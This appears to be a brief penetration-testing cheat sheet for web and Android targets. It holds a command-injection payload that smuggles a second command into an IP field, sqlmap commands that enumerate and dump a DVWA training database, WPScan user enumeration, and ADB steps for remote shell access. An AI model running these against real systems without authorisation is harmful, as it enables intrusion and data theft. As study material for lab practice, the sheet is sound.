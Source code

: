 # 🕸 Web and Android Hacking

## Tools

* SQLMap: For finding SQL Injection Vulnerabilities
* Wpscan: Scanning and Finding issues in wordpress websites
* ADB: For connecting Android devices to PC and binary analysis
* Burpsuite: For analysing and manipulating the traffic

&#x20;

## Command Injection

```
8.8.8.8;pwd
```

## SQL Injection

### SQLMap

#### Get Databases

```
sqlmap -r req.txt --dbs
```

#### Get Database Information

```
sqlmap -r req.txt -D dvwa
```

#### Get the Database Tables

```
sqlmap -r req.txt -D dvwa --tables
```

#### Get the Columns

```
sqlmap -r req.txt -D dvwa --tables --columns
```

#### Dump the information

```
sqlmap -r req.txt -D dvwa --dump
```



## WpScan

#### Help Menu

```
wpscan -h
```

#### Enumerate a website

```
wpscan --url <target url> --enumerate u
```



## ADB

#### List the Devices

```
adb devices
```

#### Connect to the Android Device

```
adb connect <ip address>:5555
```

#### Get Shell

```
adb shell
```

